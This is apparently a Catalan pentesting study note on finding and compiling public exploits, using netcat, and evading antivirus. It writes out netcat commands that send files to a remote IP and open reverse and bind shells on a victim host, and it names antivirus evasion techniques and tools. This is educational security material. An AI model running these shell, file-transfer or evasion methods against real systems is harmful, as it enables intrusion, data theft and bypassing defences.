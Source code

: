 ## Public exploits
Hi ha una gran col·lecció de proves de concepte (PoC) i exploits a Internet. Tanmateix, és important verificar el codi que contenen i comprovar que no hi ha cap backdoor (no intencionat) o altres tipus de malware que ens puguin comprometre. Les principals fonts fiables d'exploits són:
- [Rapid7](https://www.rapid7.com/db/)
- [GitHub](https://github.com/)
- [Exploit-DB](https://www.exploit-db.com/)
També és recomanable anar mirant de tant en tant [Packet Storm](https://packetstorm.news/), un lloc web on es van pujant actualitzacions de vulnerabilitats que es descobreixen i altres notícies relacionades amb aquestes.
##### Fixing exploits
Molts exploits tenen integrats la IP i el port local, o un payload de prova específic que no serveix més enllà que per detectar si el sistema és vulnerable. Per tant, al revisar el codi també s'ha de revisar això i, si s'escau, canviar-ho. 
D'altra banda, depenent del sistema operatiu al qual vulguem executar l'exploit, si està escrit en C, C++, C#... s'ha de tenir en compte que s'ha de compilar, i no és el mateix format per Windows que per Linux. Si no hi ha instruccions de compilació es pot fer de la forma següent:
##### Windows
Amb MinGW-w64 i Wine:
```bash
i686-w64-mingw32-gcc [file] -o [output] # -lws2_32 si el SO és x86
```
##### Linux
```bash
gcc [file] -o [output]
```
> El repositori fet per OffSec [Exploitdb-Bin-Sploits](https://github.com/offensive-security/exploitdb-bin-sploits) és una font fiable d'exploits precompilats.

## Netcat
Netcat és una eina de gestió de connexions de xarxa, tant TCP com UDP. Té moltíssims usos però en l'àmbit del pentesting s'utilitza sobretot per establir consoles interactives entre la màquina víctima i el host atacant i per transferir informació entre aquests. 
Té dos modes:
- **Listener:** obre un port per esperar una connexió.
- **Reciever:** estableix una connexió.
```bash
#File transfer
nc -lvnp [port] > [output_file] # Rebre arxiu
nc -nv [ip] [port] < [input_file] # Enviar arxiu
```
##### Reverse shells
L'atacant es posa en escolta per un port determinat i el host víctima inicia una consola interactiva a la IP atacant. És la forma més comuna d'aconseguir una consola interactiva, tot i que mostri l'adreça de l'atacant.
```bash
nc -lvnp [port] # Atacant en escolta
```
Cada terminal i servei té la seva forma d'entaular una consola interactiva. A la web [RevShells](https://revshells.com) es poden consultar i modificar segons les necessitats.
##### Bind shells
Una bind shell és el procés contrari que la reverse shell però amb el mateix resultat. En aquest cas, és el host víctima el que es posa en escolta en un port determinat per a que l'atacant pugui connectar-se i executar una consola. No es gaire comuna, ja que els sistemes solen tenir per defecte un firewall activat que bloqueja les connexions entrants, sobretot a Windows.
```bash
nc [ip] [port] -e [terminal] # Connectar-se a la màquina víctima
```

## Obfuscation
Molts cops els hosts objectiu estaran protegits per un antivirus que identificara els exploits com a maliciosos i impedirà que s'executin. Els mètodes de detecció dels antivirus es classifiquen en:
- **Signatura:** es compara una seqüència de bytes associada a l'arxiu o les seves connexions amb la base de dades de signatures de programa maliciós de l'antivirus.
- **Heurística:** anàlisi del codi i detecció de patrons maliciosos en comparació amb patrons coneguts d'altre malware.
- **Comportament:** monitorització de l'activitat d'un programa i detecció de connexions o execucions malicioses.
I hi ha tècniques que permeten dificultar la detecció, o fins i tot evadir-la, que es separen en:

**Evasió on-disk**
- Ofuscació: reorganitzar i randomitzar el codi per dificultar el seu anàlisis.
- Codificació: reformatejar el codi en un altre format (hex, base64...)
- Packing: generar un executable diferent a l'original per canviar-li la signatura
- Encriptació: encriptar el exploit i executar-lo juntament amb la clau de desencriptació mitjançant un stub.

**Evasió in-memory**
S'injecta el exploit en la memòria, sense crear cap arxiu i, per tant, costa més de detectar. Normalment s'injecta en un procés legítim amb un thread separat.

Les eines principals que s'utilitzen per aquest propòsit són [shellter](https://github.com/ParrotSec/shellter), [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) i [Ebowla](https://github.com/Genetic-Malware/Ebowla), tot i que n'hi ha moltes més.
